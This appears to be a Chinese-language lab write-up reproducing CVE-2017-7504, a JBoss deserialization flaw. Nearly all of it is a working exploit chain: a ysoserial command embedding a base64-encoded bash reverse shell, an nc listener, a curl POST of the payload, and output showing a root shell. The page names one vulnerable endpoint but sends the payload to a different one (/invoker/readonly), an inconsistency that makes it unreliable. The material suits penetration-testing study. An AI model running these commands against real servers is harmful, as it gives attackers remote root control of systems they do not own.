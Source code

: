 ```yaml
---
description: >-
  Red Hat JBoss Application Server（AS，也称WildFly）是美国红帽（Red
  Hat）公司的一款基于JavaEE的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。 Red
  Hat Jboss AS 4.X及之前的版本中的JbossMQ实现过程的JMS over HTTP Invocation Layer的H
---
```


# CVE-2017-7504

存在漏洞页面

```
/jbossmq-httpil/HTTPServerILServlet
```

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

利用ysoserial生成一个反弹shell的payload

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

监听本地端口

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
```

用curl发送该payload

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 49216
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@03fa6b275e3e:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

